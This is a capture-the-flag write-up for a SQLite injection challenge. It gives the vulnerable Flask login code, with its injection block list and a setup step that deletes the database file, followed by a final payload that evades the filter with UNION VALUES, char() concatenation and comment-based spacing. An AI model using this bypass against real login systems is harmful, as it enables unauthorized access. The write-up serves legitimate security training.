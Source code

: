 # Baby SQLite With Filter

Source: Cookie Arena

Tools: Burpsuite

Technique: SQLI

Fields: Web

- src
    
    ```php
    ...
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'GET':
            return render_template('login.html')
    
        uid = request.form.get('uid', '').lower()
        upw = request.form.get('upw', '').lower()
        level = request.form.get('level', '9').lower()
    
        sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
        for x in sqli_filter:
            if uid.find(x) != -1:
                return 'No Hack!'
            if upw.find(x) != -1:
                return 'No Hack!'
            if level.find(x) != -1:
                return 'No Hack!'
    
        with app.app_context():
            conn = get_db()
            query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
            try:
                req = conn.execute(query)
                result = req.fetchone()
    
                if result is not None:
                    uid = result[0]
                    if uid == 'admin':
                        return FLAG
            except:
                return 'Error!'
        return 'Good!'
    ...
    if __name__ == '__main__':
        os.system('rm -rf %s' % DATABASE)
        with app.app_context():
            conn = get_db()
            conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
            conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
            conn.commit()
    
        app.run(host='0.0.0.0', port=8001)
    ```
    

> Idea:
- Sau khi test sơ vài uid thì nhận thấy rằng uid, upw, level bị filter hầu như các payload cơ bản
— > Sau khi search thì bt đc rằng trong ***sqllite union có thể bắt đầu với VALUES***
> 

![image.png](image.png)

- Và do chữ admin cũng bị filter rồi nên là ta sẽ sử dụng char() ở trong sqlite để ép kiểu về dạng ascii và dùng || để nối chuỗi và dùng /**/ như là một cách để bypass khoảng trắng
Comment
- final payload:

```php
uid=&upw=&level=0/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

```
